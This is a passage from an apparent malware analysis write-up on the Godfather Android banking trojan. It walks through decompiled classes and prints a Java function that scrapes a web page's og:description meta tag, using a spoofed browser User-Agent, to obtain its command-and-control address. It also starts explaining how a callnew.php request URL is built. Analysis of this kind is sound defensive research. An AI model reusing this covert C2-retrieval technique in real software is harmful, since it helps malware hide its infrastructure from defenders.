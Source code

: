 #### Spellican


![Figure 16 - Spellican Class]({{ '/assets//images/2024-12-09-godfather-android-analysis/img16.png' | relative_url }}))


This function creates an OkHttpClient.Builder. 
It configures the timeouts for connect, write, read, and total call to 50 seconds each.
Convert the response body to a string using a regex to search for a specific meta tag with property=”og:description” and capture the contents of the tag.
For each occurrence found by the regex, call the Sandrakottos method to save the content in the SharedPreferences under the key “min”.


![Figure 17 - SharedPreference Reference]({{ '/assets//images/2024-12-09-godfather-android-analysis/img17.png' | relative_url }})) 
Which, in fact, turns out to be the C2 string analyzed earlier.


```java

public static void spellican(String url, Context context) throws IOException {
        OkHttpClient.Builder builder = new OkHttpClient.Builder();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        OkHttpClient client = builder.connectTimeout(50L, timeUnit).writeTimeout(50L, timeUnit).readTimeout(50L, timeUnit).callTimeout(50L, timeUnit).build();
        Request request = new Request.Builder().url(url).addHeader(("User-Agent"), ("Mozilla/5.0 (Linux; Android 10; SM-J610F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.88 Safari/537.36")).build();
        try {
            Response response = client.newCall(request).execute();
            if (!response.isSuccessful()) {
                throw new IOException(("Unexpected code") + response);
            }
            String tele = response.body().string();
            Pattern pattern = Pattern.compile(('<meta property=\"og:description\" content=\"(.*?)\">'), 32);
            Matcher matcher = pattern.matcher(tele);
            while (matcher.find()) {
                Sandrakottos(context, ("min"), matcher.group(1));
            }
            response.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }


```

#### Rarefeatured

![Figure 18 - Rarefeatured Class]({{ '/assets//images/2024-12-09-godfather-android-analysis/img18.png' | relative_url }})) 

This function prepares and sends an http request.
This function is confusing because it uses two variables called effluvias and effluvias2 with values “alt” and “ky” respectively, ( Effluvias is the same name as the function that is used to decipher strings). 
A URL is constructed by concatenating the result of the Uriiah method applied to the result of the bedamned method with the key “min” and the string “callnew.php”.
On the Shared Preference we can see
